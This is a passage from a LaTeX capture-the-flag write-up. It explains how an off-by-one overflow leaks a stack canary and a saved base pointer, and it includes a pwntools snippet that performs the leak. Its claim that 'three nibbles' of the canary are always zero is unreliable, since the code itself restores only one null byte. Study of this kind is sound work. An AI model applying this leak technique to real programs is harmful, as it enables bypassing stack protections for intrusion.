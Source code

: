     The first step taken in the exploit was identifying the stack canary and saving the base pointer, as it would prove very useful later on.\newline
    The first overflow is perfect for our work, if we look at the decompiled code we can see how the name input produces a bug, an off-by-one, and allows us to overwrite the first byte of the canary stack, a feature of the canary stack is that the first three nibbles and therefore the first and a half bytes are always zero.\newline
    The printf always prints up to the string terminator or null byte, this is the reason why the stack canary being after the name buffer will not be printed because the first byte is always a null byte.\newline
    But what happens if we overwrite the first byte of the canary with off by one?\newline
    exploit code to leak the canary:
    \begin{verbatim} 
    io.sendafter(b">", b"A"*56) 
    io.recvuntil(b'Hello '+ b'A'*56) 
    canary=io.recv(8) # save the canary  
    svb=io.recvuntil(b'Nice' , drop=True) 
    canary=b"\x00"+canary[1:8] 
    real_canary=u64(canary[0:8])
    real_svb=u64(svb.ljust(8,b'\x00'))
    log.info(f"leaked canary: {hex(real_canary)}")
    log.info(f"leaked save base pointer: {hex(real_svb)}")
    \end{verbatim}
    \texttt{sendafter} and \texttt{recvuntil} are all pwntools functions that allow in the case of \texttt{sendafter} to send input bytes (in this case fifty-six A).\newline
    \texttt{recvuntil} instead allows you to receive the program output.\newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/leaked_canary_terminator.png}
        \caption{Enter Caption}
        \label{fig:leaked_terminator_canary}
    \end{figure}
